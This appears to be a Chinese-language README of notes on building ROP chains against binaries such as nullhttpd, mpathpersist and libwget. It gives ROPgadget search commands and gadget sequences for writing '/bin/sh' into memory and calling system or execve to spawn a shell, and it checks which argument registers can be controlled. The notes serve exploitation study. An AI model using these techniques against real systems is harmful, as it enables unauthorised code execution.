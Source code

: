 ## 任意写
向任意内存地址rw写入内容"/bin/sh"，然后调用sys。

需要寻找往内存中写入数据的gadget（mov）
```
ROPgadget --binary mpathpersist.bin --only "pop|ret" | grep "rdi"
ROPgadget --binary mpathpersist.bin --only "mov|ret"
ROPgadget --binary mpathpersist.bin --only "mov|pop|ret"
ROPgadget --binary mpathpersist.bin | grep -v "jmp" | grep "mov qword"

----------------------
mov, stos, movs, movzx
```

然后查找控制寄存器的值的gadget(pop rdi)

然后寻找可写入地址(.data 和.bss)，和写入 p64(0x68732f6e69622f) （"/bin/sh"）
```
readelf -S nullhttpd.bin
---------------------------
pop rsi, ret
pop rdi, ret
mov qword ptr [rsi], rdi
pop rdi, ret
sys_addr
---------------------------
mov qword ptr [rbx], rax ; add rsp, 0x18 ; pop rbx ; pop rbp ; ret

mov byte ptr [rbp], 0 ; pop rbx ; pop rbp ; pop r12 ; ret
add dword ptr [rbp - 0x3d], ebx ; nop ; ret



```

调用sys（设置参数rdi）
```
ROPgadget --binary mpathpersist.bin --only "pop|ret" | grep "rdi"
```

## evecve调用
调用execve(”/bin/sh”, 0, 0)。需要设置
`rdi`:"/bin/sh"地址
`rsi`:0
`rdx`:0
`rax`:0x3b
寻找syscall指令地址

```
ROPgadget --binary nullhttpd.bin --only "mov|pop|ret" | grep "eax"

-------------------
基于1写入/bin/sh，（binsh_addr, 0, 0）
设置0然后add或sub
pop rdi, ret
pop rsi, ret
pop rdx, ret
pop eax, ret  | mov eax, 0x3b
syscall_addr
-------------------
设置rdx|edx -> 0

shl edx
xor
mov rdx, qword ptr [rbp - 8] ; mov qword ptr [rax], rdx ; pop rbp ; ret
xor edx, edx ; mov eax, edx ; pop rbx ; ret
shl edx, 4 ; add eax, edx ; ret  *8 time

0x0000000000423e58 : movzx edx, word ptr [rbp - 0x1c] ; mov word ptr [rax + 0x10], dx ; pop rbp ; ret

```

```
ROPgadget --binary libwget.so.2.0.0.bin --only "pop|ret" | grep "rdi"
ROPgadget --binary libwget.so.2.0.0.bin | grep -v "retf" | grep "ret" | grep -v "leave" | grep -v "\[rdx" | grep -v "\[edx" | grep "dx"

ROPgadget --binary libwget.so.2.0.0.bin | grep -v "jmp" | grep "mov qword"
ROPgadget --binary libwget.so.2.0.0.bin | grep -v "retf" | grep "ret" | grep -v "leave" | grep "mov qword"
ROPgadget --binary libwget.so.2.0.0.bin | grep -v "retf" | grep "ret" | grep -v "leave" | grep "\["

ROPgadget --binary libwget.so.2.0.0.bin | grep "syscall"

```
## 可控参数检查
rdi, rsi, rdx, rcx, r8, r9 或ecx
```
ROPgadget --binary nullhttpd.bin --only "pop|ret" | grep "rcx"
ROPgadget --binary nullhttpd.bin --only "mov|pop|ret" | grep "rcx"
ROPgadget --binary nullhttpd.bin | grep -v "jmp" | grep "ret" | grep "r8"
ROPgadget --binary nullhttpd.bin | grep -v "jmp" | grep "ret" | grep "xchg" | grep "r8"

-------------------
pop, mov，xchg, xor

pop rdi, ret
pop rsi, ret
pop rdx, ret
pop rcx, ret
pop r8, ret
pop r9, ret

mov rdi, ret
mov rsi, ret
mov rdx, ret
mov rcx, ret
mov r8, ret
mov r9, ret

check_argv_addr
```

设置可控参数，然后调用check_argv(返回到那个地址)

| register | value    |
| -------- | -------- |
| rdi      | 0x100001 |
| rsi      | 0x100002 |
| rdx      | 0x100003 |
| rcx      | 0x100004 |
| r8       | 0x100005 |
| r9       | 0x100006         |


## 目录
- binary
- debug.sh
- run.sh
- gadget
- rop.py
- rop1.py
- rop2.py
- rop3.py
- inp
